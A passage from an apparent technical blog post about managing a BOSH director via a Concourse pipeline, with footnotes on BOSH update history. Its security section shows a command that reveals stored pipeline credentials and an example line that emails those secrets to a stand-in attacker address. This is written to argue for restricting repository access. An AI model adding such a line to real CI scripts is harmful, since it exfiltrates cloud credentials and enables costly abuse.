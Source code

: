 </div>

<p />

Our credentials are stored in our Concourse pipeline, and they can be easily
revealed by a trusted user with the following command:

```bash
fly -t nono get-pipeline -p BOSH
```

These credentials include IaaS credentials, which will allow a bad actor to spin
up multiple VMs to run, say, Bitcoin mining. A co-worker of the author whose
credentials were compromised had unauthorized AWS charges exceeding $3k.

It is also important to restrict access to the GitHub repo which contains the
scripts that are run. Although the repo does not contain credentials, it enables
the execution of commands which can reveal the credentials. For example, the
following line of code could be added to the `ci/tasks/bosh.sh` script to email
the credentials to the bad actor:

```bash
echo ${DEPLOYMENTS_YML} | mail -s "secret credentials" bad.actor@mailinator.com
```

## Footnotes

<a name="quis"><sup>[Quis custodiet?]</sup></a> "Who updates the VM [BOSH
director] that keeps the other VMs updated?" is the question, versions of which
have been asked as long ago as the days of the Roman poet Juvenal, who famously
asked, "[Quis custodiet ipsos
custodes?](https://en.wikipedia.org/wiki/Quis_custodiet_ipsos_custodes%3F)" and
as recently as this century by comic book writer Alan Moore, who phrased it,
"Who watches the Watchmen?"

<a name="how_recent"><sup>[How recent?]</sup></a>
How fresh is `bosh-deployment`? Fresh.  `bosh-deployment` is a quite
active git repo, typically updated [several times or more each
week](https://github.com/cloudfoundry/bosh-deployment/graphs/commit-activity).
It's the tool that the BOSH team, and many Cloud Foundry teams, use to keep
their BOSH directors current.

<a name="bosh_up_to_date"><sup>[Updating BOSH]</sup></a> In the early days, the
BOSH micro plugin was the mechanism to update the BOSH director. There were
several drawbacks to the micro plugin, one of which is that it forced the BOSH
CLI to have an understanding of the API for various IaaSes, breaking the Cloud
Layer abstraction model.

Another drawback of the BOSH micro plugin was that it was brittle, so much so
that it was a common pattern to deploy a BOSH director whose sole purpose was to
deploy the "real" BOSH director. "Ha!" one might ask, "But how did you keep that
first BOSH director up-to-date?" The answer is simple: you didn't. You left that
first BOSH director running and never touched it except to redeploy the "real"
BOSH director. You might spin it down if you weren't using it, but you never
deleted it or updated it.
